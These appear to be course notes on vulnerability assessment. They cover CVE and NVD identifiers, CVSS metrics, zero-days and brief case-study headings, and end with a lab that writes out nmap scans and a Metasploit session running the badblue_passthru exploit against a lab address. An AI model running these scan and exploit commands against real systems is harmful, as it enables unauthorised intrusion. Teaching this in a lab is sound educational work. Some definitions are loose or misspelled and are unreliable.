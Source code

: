 # 4. Vulnerability assessment

### Topics

* Vulnerabilities
* Case studies
  * Heartbleed
  * EternalBlue
  * Log4j
* Labs
  * Nessus
  * ExploitDB

### Learning objectives

* Students will describe vulnerabilities.
* Students will recognize Common Vulnerabilities and Exposures reports and National Vulnerability Database submissions.
* Students will understand non-technical vulnerabilities.
* Students will describe vulnerability management.
* Students will perform network auditing.
* Students will perform vulnerability research.

### Overview

#### Definitions

**NIST :** a weakness in the computational logic (e.g. code) found in software and hardware components that, when exploited, results in a negative impact to confidentiality, integirty, or availability.

There are several types of vulnerabilities :

* Heist vulnerabilities : the physical layer of the OSI model covers different physical access : mantraps, volts, proper door lock, gates, fences, lighting, cameras.
* Cybersecurity vulnerabilities : they come from a software or the operating system itself. Vulnerabilities are found by DevSecOps engineers, security researchers, pentesters, software developers or users.

**CVE :** Common Vulnerabilities and Exposures. One of them is managed by MITRE Corporation funded through the National Cybersecurity Division of US Department of Homeland Security.

**NVD :** National Vulnerability Database.

#### CVE identifiers

The CVE identifiers aliases are _CSV names_, _CVE numbers_, _CVE-IDs_ or _CVEs_. All of these CVEs have a unique identifier, example :

* CVE-2021-44228 : Log4j
* CVE-2014-0160 : Heartbleed
* CVE-2017-0143 : Eternal Blue

#### Vulnerability detail pages

* Description
* Severity
* References
* Weakness enumeration
* Known affected software configurations

These are the detail page of the `CVE-2021-44228` or `Log4j`.

* https://nvd.nist.gov/vuln/detail/cve-2021-44228
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228

Weakness enumeration helps to solve the CVE in the future.

The **critical score (CVSS)** can be calcutated [here](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228\&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H\&version=3.1\&source=NIST).

| cMetric                         | Acronym | Parameter                                                                            |
| ------------------------------- | ------- | ------------------------------------------------------------------------------------ |
| **Base Score Metrics**          |         |                                                                                      |
| Attack Vector                   | AV      | Network - Adjacent network - Local - Physical                                        |
| Attack Complexity               | AC      | Low - High                                                                           |
| Privileges Required             | PR      | Not defined - Low - High                                                             |
| User Interaction                | UI      | Not defined - Required                                                               |
| Scope                           | S       | Unchanged - Changed                                                                  |
| Confidentiality Impact          | C       | Not defined - Low - High                                                             |
| Integrity Impact                | I       | Not defined - Low - High                                                             |
| Availability Impact             | A       | Not defined - Low - High                                                             |
| **Temporal Score Metrics**      |         |                                                                                      |
| Exploit Code Maturity           | E       | Not defined - Unproven that exploit exists - POCC - Functional exploit exists - High |
| Remediation Level               | RL      | Not defined - Official fix - Temporary fix - Workaround - Unavailable                |
| Report Confidence               | RC      | Not defined - Unkown - Reasonable - Confirmed                                        |
| **Environmental Score Metrics** |         |                                                                                      |
| Attack Vector                   | MAV     | Not defined - Network - Adjacent Network - Local - Physical                          |
| Attack Complexity               | MAC     | Not defined - Low - High                                                             |
| Privileges Required             | MPR     | Not defined - Low - High                                                             |
| User Interaction                | MUI     | Not defined - Required                                                               |
| Scope                           | MS      | Not defined - Unchanged - Changed                                                    |
| Confidentiality Impact          | MC      | Not defined - Low - High                                                             |
| Integrity Impact                | MI      | Not defined - Low - High                                                             |
| Availability Impact             | MA      | Not defined - Low - High                                                             |
| Confidentiality Requirement     | CR      | Not defined - Low - Medium - High                                                    |
| Intergrity Requirement          | IR      | Not defined - Low - Medium - High                                                    |
| Availability Requirement        | AR      | Not defined - Low - Medium - High                                                    |
| ### Zero day                    |         |                                                                                      |

There are vulnerabilities that haven't been found. That we call a zero-day exploit, meaning no one else knows about it or no one else has exploited it or no one else has at least reported it to the CVE organisation.

#### Other vulnerabilities

Not all vulnerabilities are computer code. Social engineering and utilizing interpersonal skills are going to be just as helpful for a hacker or a pentester in order to get access to information or the network. Than can include using known social engineering for passwords or taking advantage of maybe some of your physical operational technology controls, such as card readers or access badges.

#### How to find vulnerabilities ?

* Scanning
* Asset identification + research
* Fuzz testing (input/handling validation)

### Case studies

#### Heartbleed CVE-2014-0160

Link : https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-0160

#### EternalBlue CVE-2017-0143

#### Log4J CVE-2021-44228

### Lab 1 : Nessus

Nessus is an enumeration tool and vulnerabilities scanning tool : https://www.tenable.com/downloads/nessus?loginAttempted=true

### Lab 2 : vulnerability research

```bash
john@kali> ip a
john@kali> nmap 10.3.27.0
john@kali> nmap 10.3.27.0 -p 80,135,139,445,3389 -sV

john@kali> msfconsole
msf5> use exploit/windows/http/badblue_passthru
msf5> set rhosts 10.3.27.0
msf5> run
```
